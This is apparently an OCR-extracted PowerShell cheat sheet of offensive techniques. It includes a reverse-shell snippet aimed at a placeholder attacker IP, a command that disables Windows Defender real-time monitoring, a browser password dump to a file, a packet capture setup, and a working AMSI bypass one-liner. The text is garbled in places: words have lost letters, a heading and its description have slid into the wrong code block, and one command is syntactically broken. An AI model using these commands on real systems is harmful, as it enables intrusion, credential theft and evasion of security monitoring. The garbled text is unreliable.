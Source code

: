 ### Monitoring File System Changes
Sets up a monitor on the le system to track and log any changes, such as le creation, which can be useful for detecting suspicious activity.

```powershell
$watcher = New-Object System.IO.FileSystemWatcher; $watcher.Path = 'C:\';
$watcher.IncludeSubdirectories = $true; $watcher.EnableRaisingEvents = $true; Register-ObjectEvent
$watcher 'Created' -Action { Write-Host 'File Created: ' $Event.SourceEventArgs.FullPath }
```

### Creating Reverse Shell

Establishes a reverse shell connection to a specied attacker-controlled machine, allowing remote command
execution.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream =
$client.GetStream(); [byte[]]$bytes = 0..65535...
```

### Disabling Windows Defender

Extracts passwords saved in web browsers and saves them to a le, useful for credential harvesting.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Disables Windows Defender’s real-time monitoring feature, which can help in evading detection.
Extracting Browser Saved Passwords
Invoke-WebBrowserPasswordDump | Out-File -FilePath C:\temp\browser_passwords.txt
```

### Conducting Network Sniffing

Sets up a network capture session to sni packets, which can be analyzed for sensitive data or network
troubleshooting.

```powershell
$adapter = Get-NetAdapter | Select-Object -First 1; New-NetEventSession -Name 'Session1' -CaptureMode
SaveToFile -LocalFilePath 'C:\temp\network_capture.etl'; Add-NetEventPacketCaptureProvider -SessionName
'Session1' -Level 4 -CaptureType Both -Enable; Start-NetEventSession -Name 'Session1'; Stop-
NetEventSession -Name 'Session1' after 60
```

### Bypassing AMSI (Anti-Malware Scan Interface)

Bypasses the Anti-Malware Scan Interface (AMSI) in PowerShell, allowing the execution of potentially malicious scripts without detection.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,S
tatic').SetValue($null,$true)
```
